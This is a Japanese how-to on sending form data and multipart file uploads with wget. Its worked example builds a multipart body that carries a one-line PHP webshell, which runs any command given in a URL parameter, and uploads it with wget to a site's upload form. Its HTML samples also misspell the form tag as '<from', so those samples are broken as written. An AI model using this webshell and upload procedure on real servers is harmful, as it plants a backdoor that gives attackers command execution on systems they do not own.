 # wget で ファイルを POST する方法

よくある値をPOSTするHTMLの書き方は次のとおり。

```
<from action='sender.php' method='POST'>
<input type='text' name='name' value='name_value' />
<input type='password' name='pass' value='pass_value' />
<input type='submit' value='Send' />
</from>
```

このときwgetでPOSTするときの書き方は次のとおり。

```
wget --post-data='name=name_value&pass=pass_value' https://example.jp/sender.php
```

ファイルをPOSTするときのHTMLは次のとおり。

```
<from enctype='multipart/form-data' action='uploader.php' method='POST'>
<input type='hidden' name='name' value='value' />
<input type='file' name='userfile' />
<input type='submit' value='Upload' />
</from>
```

ググると次のような書き方でアップロードできると書いてるウエブページをよく見るが、これではファイルをPOSTできても、受け取る側がファイルを直接送られてくることを想定して作られていないと有効であない。

```
wget --post-file='webshell.php' https://example.jp/uploader.php
```

from タグに「enctype='multipart/form-data'」とあるときは次のような書き方をする必要がある。

```
wget --header='Content-Type: multipart/form-data; boundary=(任意英数字列)' --post-file='webshell.php_for_post' https://example.jp/uploader.php
```
* (任意英数字列) はすべて同じ文字列。

[webshell.php_for_post の内容]
```
--(任意英数字列)
Content-Disposition: form-data; name="name"

value
--(任意英数字列)
Content-Disposition: form-data; name="userfile"; filename="webshell.php"
Content-Type: text/plain

<?php

system($_GET['April']);
--(任意英数字列)

```

* 解説

```
--(任意英数字列)
Content-Disposition: form-data; name="name"

value
```
上記は from 内の以下に対応している。

```
<input type='hidden' name='name' value='value' />
```

---

```
--(任意英数字列)
Content-Disposition: form-data; name="userfile"; filename="webshell.php"
Content-Type: text/plain

<?php

system($_GET['April']);
```

上記は from 内の以下で websehll.php を指定したことに対応している。

filename="webshell.php" の部分でファイル名を指定する。

```
<input type='file' name='userfile' />
```

指定した webshell.php の内容は以下のとおり。

[ webshell.php の内容 ]
```
<?php

system($_GET['April']);
```
---

```
--(任意英数字列)
```

最後行の上記は指定したファイルがここまでであることを示している。

## 実際にやってみよう

以下の内容のファイルを用意。ファイル名を webshell.php_for_post とする。

```
--0123456789
Content-Disposition: form-data; name="name"

value
--0123456789
Content-Disposition: form-data; name="userfile"; filename="webshell.php"
Content-Type: text/plain

<?php

system($_GET['April']);
--0123456789
```

```
wget --header='Content-Type: multipart/form-data; boundary=0123456789' --post-file='webshell.php_for_post' https://example.jp/uploader.php
```